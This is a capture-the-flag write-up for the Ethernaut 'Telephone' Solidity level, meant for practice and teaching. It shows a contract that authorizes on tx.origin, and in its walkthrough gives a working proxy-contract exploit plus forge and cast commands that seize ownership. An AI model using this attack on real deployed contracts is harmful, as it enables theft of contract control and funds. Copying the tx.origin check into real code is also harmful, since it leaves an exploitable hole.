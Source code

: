 ## Telephone Level Outline

**Difficulty : 1/10**

Claim ownership of the contract below to complete this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768)

## Solution
we need to send a transaction where `tx.origin != msg.sender`. To do this, we use a proxy contract to call the "changeOwner()" as tx.origin will equal our EOA and msg.sender will equal our deployed contract's address.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Phone {
    Telephone telephone;

    constructor(address _telephoneAddr) {
       telephone = Telephone(_telephoneAddr);
    } 

    function changeOwner() public {
        telephone.changeOwner(msg.sender);
    }
}

interface Telephone {
    function changeOwner(address _owner) external;
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Phone --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "changeOwner()" --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

### [:arrow_left: Back To Main Menu](../README.md)
